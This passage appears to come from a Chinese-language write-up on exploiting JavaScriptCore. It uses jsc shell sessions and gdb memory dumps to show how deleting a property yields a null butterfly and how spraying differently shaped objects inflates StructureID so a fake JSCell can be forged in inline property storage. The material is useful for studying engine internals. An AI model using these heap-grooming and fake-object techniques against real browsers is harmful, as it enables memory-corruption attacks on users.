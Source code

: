 创建一个空对象，添加三个属性后删除第二个属性，第二个属性变成了`0x0000000000000000`
```
>>> obj = {}
>>> obj.x = 1
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 297

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000129	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

想法来了：地址`0x7fffaf4b0080`是对象`obj`起始地址，我们可以有限控制偏移`0x10`之后的若干连续空间内存布局，那我们是否有可能把第一个属性地址`0x7fffaf4b0090`作为伪造对象的起始地址进行利用呢？

通过删除属性可以把第二个属性的内存置为`0x0000000000000000`用于伪造空butterfly，剩下的就是第一个属性如何构造

这里补充一点：每个对象的前八字节叫作JSCell
```c
class JSCell : public HeapCell {
    ...
    StructureID m_structureID;
    IndexingType m_indexingTypeAndMisc; // DO NOT store to this field. Always CAS.
    JSType m_type;
    TypeInfo::InlineTypeFlags m_flags;
    CellState m_cellState;
```

我们可以进行Spray，上面的测试过程可以看出每次新建一个结构不同的对象，`StructureID`就会递增，所以我们堆喷一大堆结构不同的对象，理论上`StructureID`就会增加到很大

尝试Spray，然后查看最后一个对象的内存
```javascript
for (var i = 0; i < 0x1000; i++) {
    obj = {};
    obj.x = 1;
    obj['prop_' + i] = 2;
}
```

可以看到`StructureID`从`295`增加到了`4390`，那我们完全可以控制`StructureID`为`0x1000`的对象
```javascript
>>> for (var i = 0; i < 0x1000; i++) { obj = {}; obj.x = 1; obj['prop_' + i] = 2; } describe(obj)
Object: 0x7fffaf4b00c0 with butterfly (nil) (Structure 0x7fffaf470380:[Object, {x:0, prop_0:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 295
Object: 0x7fffaf4b0140 with butterfly (nil) (Structure 0x7fffaf4703f0:[Object, {x:0, prop_1:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 296
Object: 0x7fffaf4b01c0 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, prop_2:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 297
Object: 0x7fffaf4b0240 with butterfly (nil) (Structure 0x7fffaf4704d0:[Object, {x:0, prop_3:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 298
Object: 0x7fffaf4b02c0 with butterfly (nil) (Structure 0x7fffaf470540:[Object, {x:0, prop_4:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 299
...
Object: 0x7fffaf530040 with butterfly (nil) (Structure 0x7fffaf4e0310:[Object, {x:0, prop_4095:1}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 4390
```
